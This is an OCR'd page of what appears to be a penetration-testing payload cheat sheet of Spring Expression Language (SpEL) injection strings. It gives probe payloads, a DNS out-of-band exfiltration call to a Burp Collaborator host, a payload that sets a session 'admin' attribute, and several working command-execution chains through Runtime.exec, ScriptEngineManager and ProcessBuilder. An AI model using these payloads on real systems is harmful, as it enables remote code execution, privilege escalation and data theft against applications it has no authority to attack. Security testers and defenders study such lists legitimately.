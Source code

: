 ### SpEL - Basic Injection

```java
${7*7}
${'patt'.toString().replace('a', 'x')}
```

### SpEL - DNS Exfiltration

DNS lookup

```java
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}
```

### SpEL - Session Attributes

Modify session attributes

```java
${pageContext.request.getSession().setAttribute("admin",true)}
```

### SpEL - Command Execution

- Method using `java.lang.Runtime` #1 - accessed with JavaClass

    ```java
    ${T(java.lang.Runtime).getRuntime().exec("COMMAND_HERE")}
    ```

- Method using `java.lang.Runtime` #2

    ```java
    #{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
    #{session.getAttribute("rtc").setAccessible(true)}
    #{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}
    ```

- Method using `java.lang.Runtime` #3 - accessed with `invoke`

    ```java
    ${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('COMMAND_HERE')}
    ```

- Method using `java.lang.Runtime` #3 - accessed with `javax.script.ScriptEngineManager`

    ```java
    ${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}
    ```

- Method using `java.lang.ProcessBuilder`

    ```java
    ${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
    ${request.getAttribute("c").add("cmd.exe")}
    ${request.getAttribute("c").add("/k")}
    ${request.getAttribute("c").add("ping x.x.x.x")}
    ${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
    ${request.getAttribute("a")}
    ```
